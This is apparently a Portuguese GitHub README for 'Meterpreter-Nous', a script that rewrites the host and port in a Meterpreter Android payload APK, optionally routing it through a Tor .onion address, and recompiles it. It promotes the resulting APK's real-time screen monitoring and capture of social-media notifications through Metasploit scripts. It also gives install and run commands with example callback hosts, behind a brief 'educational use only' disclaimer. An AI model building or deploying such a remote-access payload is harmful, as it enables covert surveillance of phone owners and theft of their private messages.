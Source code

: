 # Meterpreter-Nous  

*"Hack the system. Reconfigure. Adapt. Overcome."*  

Este script modifica e compila um APK personalizado, permitindo configurar conexões dinâmicas com ou sem o uso de Tor.  

---

## [ SYSTEM CORE ]  

- Modifica o arquivo `Payload.smali` para definir um novo **host** e **porta**.  
- Suporte total a hosts `.onion` para conexões sigilosas via **Tor**.  
- Compilação automatizada do APK modificado.  

---

## [ SYSTEM REQUIREMENTS ]  

Certifique-se de possuir as ferramentas essenciais:  

- [Python 3.x](https://www.python.org/)  
- [apktool](https://github.com/iBotPeaches/Apktool)  
- [Java](https://www.java.com/)  

---

## [ INSTALL & DEPLOY ]  

Clone o repositório e navegue até o diretório:  

```bash
git clone https://github.com/mikelkarma/Meterpreter-Nous
cd Meterpreter-Nous
sh install.sh # Debian
```

## [ EXECUTION MODE ]  

Defina o host e porta diretamente na CLI:  

```bash
python script.py --host <IP ou domínio> --porta <porta> --tor <true/false>
```

Exemplos de Execu            o:

**1. Configura            o de um host sem Tor:**
```bash
python script.py --host 192.168.0.1 --porta 8080 --tor false
```

**2. Configura            o de um host .onion com Tor:**
```bash
python script.py --host exemplo.onion --porta 8080 --tor true
```


---

[ MOD APK CAPABILITIES ]

Este APK possui capacidades avançadas, incluindo:

Monitoramento em tempo real da tela do Android.

Captura de notificações de redes sociais e outros aplicativos.


Os scripts necessários para ativar essas funções no Metasploit estão disponíveis em msf-scripts.
Copie-os para o seu ambiente Metasploit e execute na sessão desejada:

```bash
meterpreter> run <script>
```

---

> "No system is safe. The only real security is obscurity."

---

[ DISCLAIMER ]

Este código é disponibilizado apenas para fins educacionais e de pesquisa.

- Não há qualquer garantia de funcionamento ou segurança.

- O uso deste código é de total responsabilidade do usuário.

- Não me responsabilizo por qualquer uso indevido, ilegal ou mal-intencionado deste software.


Se optar por utilizar este código, faça-o de maneira ética e dentro dos limites da lei.


